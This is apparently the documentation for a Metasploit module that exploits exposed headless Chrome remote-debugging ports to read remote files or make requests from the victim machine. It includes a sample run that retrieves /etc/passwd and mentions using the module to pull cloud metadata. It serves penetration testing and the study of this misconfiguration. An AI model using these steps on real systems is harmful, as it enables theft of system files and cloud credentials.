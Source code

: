 # Chrome Debugger Arbitary File Read / Abitrary Web Request Auxiliary Module

This module takes advantage of misconfigured headless chrome sessions and either retrieves a specified file off the remote file system, or makes a web request from the remote machine.

## Headless Chrome Sessions
	
A vulnerable Headless Chrome session can be started with the following command:

```
$ google-chrome --remote-debugging-port=9222 --headless --remote-debugging-address=0.0.0.0
```

This will start a webserver running on port 9222 for all network interfaces.

## Verification Steps
	
1. Start `msfconsole`
2. Execute `auxiliary/gather/chrome_debugger`
3. Execute `set RHOST $REMOTE_ADDRESS`
4. Execute `set RPORT 9222`
5. Execute either `set FilePath $FILE_PATH_ON_REMOTE` or `set Url $URL_FROM_REMOTE`
6. Execute `run`

## Options

* FilePath - The file path on the remote you wish to retrieve
* Url - A URL you wish to fetch the contents of from the remote machine

**Note:** One or the other must be set!

## Example Run

```
[*] Attempting Connection to ws://192.168.20.168:9222/devtools/page/CF551031373306B35F961C6C0968DAEC
[*] Opened connection
[*] Attempting to load url file:///etc/passwd
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Retrieved resource
[*] Auxiliary module execution completed
```

## Notes

This can be useful for retrieving cloud metadata in certain scenarios.  Primarily this module targets developers.
